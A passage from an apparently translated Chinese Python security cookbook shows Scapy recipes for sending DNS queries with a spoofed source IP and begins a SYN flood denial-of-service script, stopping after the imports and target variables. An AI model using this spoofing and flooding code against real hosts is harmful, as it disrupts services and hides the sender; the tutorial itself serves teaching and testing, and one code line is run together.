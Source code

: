 1.  现在以所需的权限运行脚本：

```py
sudo python3 ip-spoof-ping.py  
```

1.  现在我们可以尝试发送伪造的 DNS 查询。为此，创建另一个名为`dnsQuery()`的函数。

```py
def dnsQuery(source, destination, iface):
    pkt =IP(dst=destination,src=source)/UDP()/DNS(rd=1,qd=DNSQR(qname="example.com"))     sr1(pkt)  
```

这将创建以下数据包，并开始在发送/接收循环中发送：

![](img/00063.jpeg)

1.  然后通过调用此方法发送 DNS 查询：

```py
try: 
    print ("Starting Ping")
    dnsQuery(fake_ip,dns_destination,iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

1.  如果我们可以监视受害者的`tcpdump`，我们可以看到 DNS 响应。

# SYN 洪泛

SYN 洪泛是一种使服务对合法用户不可用的 DOS 攻击类型。SYN 洪泛攻击利用了 TCP 协议的*三次握手*，其中客户端发送 TCP SYN 数据包以开始与服务器的连接，服务器回复 TCP SYN-ACK 数据包。然后，在正常操作中，客户端将发送一个 ACK 数据包，然后是数据。这将保持连接处于`SYN_RECV`状态。但是，如果客户端不用 ACK 数据包回应，连接将处于半开放状态。

如果多个攻击者或系统向目标服务器打开了许多这样的半开放连接，它可能填满服务器的 SYN 缓冲区，并且可能停止接收更多的 SYN 数据包，从而导致**拒绝服务**（DoS）攻击：

![](img/00064.jpeg)

我们可以使用 Scapy 生成 SYN 洪泛数据包进行测试。

# 操作步骤...

以下是创建生成 SYN 洪泛攻击脚本的步骤：

1.  创建一个`syn-flooding.py`文件并在编辑器中打开它。

1.  然后，我们必须导入所需的模块：

```py
from scapy.all import *  
```

1.  现在，声明变量：

```py
iface = "en0"
destination_ip = '192.168.1.5'  
```
